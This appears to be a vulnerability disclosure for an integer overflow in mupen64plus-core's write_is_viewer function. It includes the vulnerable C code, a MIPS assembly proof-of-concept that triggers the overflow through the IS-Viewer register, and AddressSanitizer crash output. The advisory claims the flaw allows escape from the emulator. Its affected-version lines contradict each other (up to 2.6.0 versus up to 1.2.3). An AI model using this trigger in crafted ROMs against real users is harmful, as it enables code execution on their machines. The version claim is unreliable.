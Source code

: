 ## Title: Integer Overflow and Virtual Machine Escape in mupen64plus <= 2.6.0

**BUG_Author:** Li Gangyang, USTC/TTCN


**Affected Version:** mupen64plus ≤ 1.2.3

**Vendor:** [mupen64plus emulator](https://mupen64plus.org/)

**Software:** [mupen64plus-core](https://github.com/mupen64plus/mupen64plus-core/)

**Vulnerability Files:**
    - `src/device/cart/is_viewer.c#L59`

**Vulnerability Description:**  Mupen64Plus is a cross-platform, plugin-based N64 emulator that can accurately run many games. It includes four MIPS R4300 CPU emulators, a dynamic recompilation engine that supports 32-bit x86 and 64-bit amd64 systems, and plugins for audio, graphics rendering, signal co-processors, and input.

The Mupen64Plus emulator has an integer overflow vulnerability in its write_is_viewer function. An attacker can exploit this vulnerability by injecting malicious code into a game's ROM package, allowing them to escape the emulator and achieve arbitrary code execution on the host machine.


#### Vulnerability Analysis

Both `is_viewer->buffer_pos` and `word` are variables of type uint32_t, so their addition may result in integer overflow, causing the result to become smaller.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/cart/is_viewer.c#L59
void write_is_viewer(void* opaque, uint32_t address, uint32_t value, uint32_t mask)
{
    struct is_viewer* is_viewer = (struct is_viewer*)opaque;
    address &= IS_ADDR_MASK;
    uint32_t word = value & mask;
    if (address == 0x14)
    {
        if (word > 0)
        {
            /* make sure we don't overflow the buffer */
            if (is_viewer->buffer_pos + word > IS_BUFFER_SIZE)
            {
                /* reset buffer */
                memset(is_viewer->output_buffer, 0, IS_BUFFER_SIZE);
                is_viewer->buffer_pos = 0;
                DebugMessage(M64MSG_WARNING, "IS64: prevented buffer overflow, cleared buffer");
                return;
            }

            memcpy(&is_viewer->output_buffer[is_viewer->buffer_pos], &is_viewer->data[0x20], word);
            ...
        }
        ...
    }
    ...
}
```

![](./asserts/write_is_viewer.png)

- poc.asm

```
.section .shellcode,"awx"
.global _start
_start:
li    $a0, 0x93ff0014
li    $a1, 0xe00
sw    $a1, 0($a0)
li    $a1, 0xfffffffc
sw    $a1, 0($a0)
```


- reproduction

```
$ docker run -itv $(pwd):/mupen64plus --rm ubuntu:22.04 
root@c563c255a375:/# apt-get update
root@c563c255a375:/# apt-get install -y libasan6 libsdl2-2.0-0 libgl1 libglu1-mesa libvulkan1 libbinutils
root@c563c255a375:/# cd /mupen64plus/ 
root@c563c255a375:/mupen64plus# ./mupen64plus ./maliao.z64
...
==1484==ERROR: AddressSanitizer: memcpy-param-overlap: memory ranges [0x7f76e91c9258,0x7f76e91ca258) and [0x7f76e91c8278, 0x7f76e91c9278) overlap
    #0 0x7f76ed7c41ed in __interceptor_memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827
    #1 0x7f76e7b99834 in write_is_viewer ../../src/device/cart/is_viewer.c:68
    #2 0x7f76e7c349e6 in mem_write32 ../../src/device/memory/memory.h:87
    #3 0x7f76e7c35f9c in r4300_write_aligned_word ../../src/device/r4300/r4300_core.c:372
    #4 0x7f76e7c9ec4c in dynarec_write_aligned_word ../../src/device/r4300/recomp.c:961
    #5 0x7f76c65b5082  (<unknown module>)

0x7f76e91c9258 is located 21311320 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
0x7f76e91c8278 is located 21307256 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
SUMMARY: AddressSanitizer: memcpy-param-overlap ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827 in __interceptor_memcpy
==1484==ABORTING
```

![](./asserts/write_is_viewer.asan.png)
